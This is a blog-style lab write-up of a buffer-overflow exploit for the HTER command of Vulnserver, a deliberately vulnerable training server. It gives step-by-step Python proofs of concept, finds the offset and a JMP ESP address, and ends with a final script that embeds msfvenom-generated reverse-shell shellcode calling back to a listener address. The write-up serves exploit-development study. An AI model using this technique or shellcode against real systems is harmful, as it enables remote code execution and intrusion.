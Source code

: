 ```yaml
---
layout: post
title: Vulnserver HTER - Vanilla BOF & Character Conversion
date: 2020-03-08 18:00:00
categories: posts
comments: false
en: true
---
```


# Introduction

### In order to finish with the eccentric cases that vulnserver may offer us, today we will be seeing an odd case of a buffer overflow with a character conversion.

#### The issue itself

##### Due to the character conversion, the received bytes are parsed as expected. Nonetheless, the alphanumeric bytes suffer from no change whatsoever and are not ported as hex. 
For example, if the EIP is overflown with 1000 bytes of A's, the EIP may not reveal 41414141, instead, it will place "AAAAAAAA".

### The basics

##### As with any other vulnerable applicaiton to, so as to achieve a buffer overflow, we shall test it first in order to exploit it, let's try with HTER + long string of bytes.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 5000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

#### Crash I.

![](/assets/img/HTER/1.png)

##### Gaze at the EIP for a bit, look how instead of converting the sent bytes into hex (41), it just parsed them as how they went dispatched.
##### As there is no pattern available in order to obtain the offset on these scenarios, the best method is to deduce the offset manually with the use of an elimination process.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 2000 + "B" * 1000 + "C" * 1000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash II.

![](/assets/img/HTER/2.png)

##### As displayed, it appears as now the B's are the culprit for the overflow. After this process was replicated on multiple occasions, it was found for the offset to be 2041.
##### Furthermore, in order to overwrite the EIP, it is needed to cover the extra space that the opcodes commonly occupy, meaning that it is required to send 8 B's, instead of 4.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 2041 + "BBBBBBBB" + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash III.

![](/assets/img/HTER/3.png)

#### Hijacking the execution.

##### As with any other buffer overflow, it is now essential to find an address with a JMP ESP instruction, which will allow us to execute any type of code with no restrictions 
whatsoever.

###### Enumerating the modules.

![](/assets/img/HTER/4.png)

###### Hunting for the required instruction.

##### Now that the vital address has been already acquired, it can't just be placed as we always did, with struct or a hex escape sequence (\x). Instead, it must be placed on 
reverse, just without the aforementioned hexadecimal condition. For example, instead of sending \x41\x49, 4149 is chosen.

![](/assets/img/HTER/5.png)

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

jmpesp = "AF115062" # 625011AF

buffer = "HTER " + "A" * 2041 + jmpesp + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash IV.

![](/assets/img/HTER/6.png)

##### Good, as we now have access to execution, the following step would be generating shellcode, but following what was seen on the last crash. In order to make our shellcode 
usable, the format "hex" will be employed.

##### Generating shellcode

```term
root@whitecr0wz:~# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.139 LPORT=9000 -f hex -b "\x00" EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of hex file: 702 bytes
b8cb420fe4daced97424f45b31c9b1523143120343128320beed114ad770d9b2281553571915071c0aa54370a74e01603c228e87f589e8a606a1c9a984b81d09b4725048f16f9918aae40c8cdfb18c27935495d46456b44bf
e01166ad3391f743007e90f82f3e8d9dafc4724d30e9961d4f0ec9b268cf658544a727afe1924a6feceb32d0cbab069113d14022db69bc4a78cbfc0ec57a1514939de8132e67acadff3f691b7303b29485f4c5a7ac0e6f436
89200338a0959bc74be6b2031fb6aca2205d2c4af5f27ce4a6b22c44175b264b487b4981e116b042ce4fde19a68d1e3d1f1bf82b4f4d53c4f6d42f75f6c24ab57ce1ab78758cbfed75db9db88af18927189e492101091e66f
740ca9aaefae86636c4a8bc8bcb3130b7ef218c38b415406f62c326d9c4bdf0b68e2984f4102f89d0e6cf388dbef0f5593789ebf9b840a81a5b40c5b2c20164dff4fcabe676f4531d667d5159206e2bf2c59098f3cf
root@whitecr0wz:~# 
```

###### Final PoC:

```term
import socket, sys

host = sys.argv[1]

buf = 
"b8cb420fe4daced97424f45b31c9b1523143120343128320beed114ad770d9b2281553571915071c0aa54370a74e01603c228e87f589e8a606a1c9a984b81d09b4725048f16f9918aae40c8cdfb18c27935495d46456b44b
fe01166ad3391f743007e90f82f3e8d9dafc4724d30e9961d4f0ec9b268cf658544a727afe1924a6feceb32d0cbab069113d14022db69bc4a78cbfc0ec57a1514939de8132e67acadff3f691b7303b29485f4c5a7ac0e6f43
689200338a0959bc74be6b2031fb6aca2205d2c4af5f27ce4a6b22c44175b264b487b4981e116b042ce4fde19a68d1e3d1f1bf82b4f4d53c4f6d42f75f6c24ab57ce1ab78758cbfed75db9db88af18927189e492101091e66
f740ca9aaefae86636c4a8bc8bcb3130b7ef218c38b415406f62c326d9c4bdf0b68e2984f4102f89d0e6cf388dbef0f5593789ebf9b840a81a5b40c5b2c20164dff4fcabe676f4531d667d5159206e2bf2c59098f3cf"

jmpesp = "AF115062" # 625011AF

buffer = "HTER " + "A" * 2041 + jmpesp + "90" * 20 + buf + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

#### EndGame

![](/assets/img/HTER/7.png)

